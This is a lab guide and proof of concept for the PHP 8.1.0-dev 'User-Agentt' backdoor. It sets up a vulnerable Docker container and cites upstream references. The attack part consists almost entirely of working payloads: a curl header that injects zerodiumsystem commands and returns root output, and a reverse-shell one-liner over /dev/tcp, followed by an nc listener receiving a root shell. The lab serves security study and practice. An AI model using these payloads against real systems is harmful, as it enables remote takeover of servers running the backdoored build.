 # PHP 8.1.0-dev User-Agentt Backdoor Docker Lab & PoC
References:
- [PHP 8.1.0-dev User-Agentt Backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)
- [https://news-web.php.net/php.internals/113838](https://news-web.php.net/php.internals/113838)
- [https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d)
- [https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)
- [HackTheBox - Knife (PHP 8.1.0-dev User-Agentt)](https://twseptian.github.io/hackthebox%20machine/htb-machine-knife/)

If you doesn't have `docker-compose`. First let's install `docker-compose` to your operating system.
```bash
$ sudo apt-get install docker-compose
```
Docker command to build dockerfile
```bash
$ docker-compose up -d
$ docker ps -a                                                                                                                                          
CONTAINER ID   IMAGE                     COMMAND                  CREATED          STATUS          PORTS                                   NAMES
4607c17c5b06   vulhub/php:8.1-backdoor   "php -S 0.0.0.0:80 -…"   11 minutes ago   Up 11 minutes   0.0.0.0:8080->80/tcp, :::8080->80/tcp   php-81-dev_web_1
```
runs the service at `http://youripaddress:8080` or `http://0.0.0.0:8080`

Command Injection
```bash
$ curl -H "User-Agentt: zerodiumsystem('id');" 'http://172.17.0.1:8080'
uid=0(root) gid=0(root) groups=0(root)

testing, hello world page
```
Remote Code Execution
```bash
$ curl -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'\");" 'http://127.0.0.1:8080'
```
Output
```bash
$ nc -lvnp 4444                                                                                 
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.18.0.2.
Ncat: Connection from 172.18.0.2:35820.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@4607c17c5b06:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@4607c17c5b06:/var/www/html# 
```
